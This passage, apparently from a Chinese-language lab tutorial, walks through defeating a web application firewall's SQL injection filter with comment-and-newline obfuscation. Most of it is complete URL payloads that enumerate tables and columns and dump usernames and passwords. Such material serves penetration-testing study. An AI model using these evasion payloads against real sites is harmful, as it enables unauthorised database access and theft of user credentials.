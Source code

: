 对`information_schema`进行混淆测试：

首先使用内联注释，发现，这里的版本号不管写啥，都直接被拦。

![](https://gitee.com/fuli009/images/raw/master/public/20230222180219.png)

考虑是检测了`select + from + /*! + information_schema`的组合

加个换行试试

![](https://gitee.com/fuli009/images/raw/master/public/20230222180221.png)

还是不行...

那既然都换行了，那我们再在换行前加一些垃圾字符：

> 如果我们直接插入垃圾字符，会当作SQL语句执行，所以前面还需要在垃圾字符前加个注释，可以是 `/**/`或`#`或`--+`
>
> 但是经过测试只有 `--+`好用

![](https://gitee.com/fuli009/images/raw/master/public/20230222180222.png)

有这么多可以绕过的，我们随便选择一个，比如`/*%/`

这样，最终语句如下：

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,group_concat(table_name),3/*/!%!/*/from/*/!%!/*//*!00000--+/*%/%0ainformation_schema.tables*/%20where%20table_schema=database(/*/!%!/*/)--%20+

![](https://gitee.com/fuli009/images/raw/master/public/20230222180225.png)![](https://gitee.com/fuli009/images/raw/master/public/20230222180227.png)

### 获取表字段

正常语句：

    
    
    ?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+

绕过语句：

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,group_concat(column_name),3/*/!%!/*/from/*/!%!/*//*!00000--+/*%/%0ainformation_schema.columns*/%20where%20table_name=0x7573657273--%20+

![](https://gitee.com/fuli009/images/raw/master/public/20230222180228.png)

### 获取字段信息

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,/*/!%!/*/group_concat(username,0x2f,password),3/*/!%!/*/from/*/!%!/*/users

![](https://gitee.com/fuli009/images/raw/master/public/20230222180229.png)
